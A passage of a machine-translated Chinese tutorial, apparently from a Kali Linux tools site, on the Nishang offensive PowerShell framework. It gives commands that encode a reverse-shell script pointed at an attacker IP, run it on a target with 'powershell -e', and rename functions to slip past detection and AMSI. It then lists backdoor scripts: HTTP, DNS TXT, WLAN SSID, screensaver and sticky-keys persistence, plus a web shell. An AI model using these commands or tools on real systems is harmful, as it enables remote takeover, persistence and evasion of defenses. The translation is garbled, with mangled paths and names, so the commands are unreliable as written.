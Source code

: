 方法二。使用 PowerShell 的 **`-encodedcommand`(或`-e` )** 参数，霓裳中的所有脚本都会在当前 PowerShell 会话中导出一个同名函数。因此，在从非 PowerShell shell 中使用 encodedcommand 参数时，请确保在脚本本身中进行函数调用。对于上面的例子，添加一个函数调用`**"Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]"**`(不带引号)。

使用来自 Nishang 的 Invoke-Encode 对 scrript 进行编码:

**PS C:\霓裳>。\ nishang \ Utility \ Invoke-Encode

PS C:\ nishang>Invoke-Encode-DataToEncode C:\ nishang \ shell \ Invoke-powershell TCP . PS1-out command**

*   写入的编码数据。\ encoded.txt
*   编码命令已写入。\encodedcommand.txt

从上面开始，使用 encodedcommand.txt 中的编码脚本，并在可以执行命令的目标上运行它(远程 shell、meterpreter 本机 shell、web shell 等)。).如下使用它:

**C:\ Users \ target>powershell-e【编码脚本】**

如果仍然检测到脚本，更改函数和参数名称并删除帮助内容会有所帮助。

如果 Windows 10 的 AMSI 仍然阻止脚本执行，请看这篇博客:[http://www.labofapenetrationtester.com/2016/09/amsi.html](http://www.labofapenetrationtester.com/2016/09/amsi.html)

**也读-[剪贴板 me : Grab &通过链接注入剪贴板内容](https://kalilinuxtutorials.com/clipboardme/)**

**脚本**

Nishang 目前包含以下脚本和有效负载。

**活动目录**

*   [Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)
    *   修改 AD 对象以提供 DCShadow 所需的最小权限。

**Antak——网络外壳**

*   [Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
    *   使用这个 webshell 在内存中执行 PowerShell 脚本、运行命令以及下载和上传文件。

**后门**

*   [HTTP-后门](https://github.com/samratashok/nishang/blob/master/Backdoors/HTTP-Backdoor.ps1)
    *   可以从第三方网站接收指令并在内存中执行 PowerShell 脚本的后门程序。
*   [DNS_TXT_Pwnage](https://github.com/samratashok/nishang/blob/master/Backdoors/DNS_TXT_Pwnage.ps1)
    *   一种后门程序，可以从 DNS TXT 查询中接收命令和 PowerShell 脚本，在目标上执行它们，并使用查询进行远程控制。
*   [按时执行](https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1)
    *   可以在给定时间在目标上执行 PowerShell 脚本的后门程序。
*   [Gupt-后门](https://github.com/samratashok/nishang/blob/master/Backdoors/Gupt-Backdoor.ps1)
    *   一种后门程序，可以从 WLAN SSID 接收命令和脚本，而无需连接到它。
*   [Add-ScrnSaveBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1)
    *   一个后门程序，可以使用 Windows 屏幕保护程序进行远程命令和脚本执行。
*   [Invoke-ADSBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1)
    *   一种后门程序，可以使用备用数据流和 Windows 注册表来实现持久性。
*   [Add-RegBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-RegBackdoor.ps1)
    *   一个后门程序，使用众所周知的调试器技巧来执行带有粘滞键和 Utilman (Windows key + U)的有效负载。
*   [Set-RemoteWMI](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)
    *   修改 DCOM 和 WMI 命名空间的权限，以允许非管理员用户访问。
*   [Set-RemotePSRemoting](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1)
    *   修改 PowerShell 远程处理的权限，以允许非管理员用户访问。
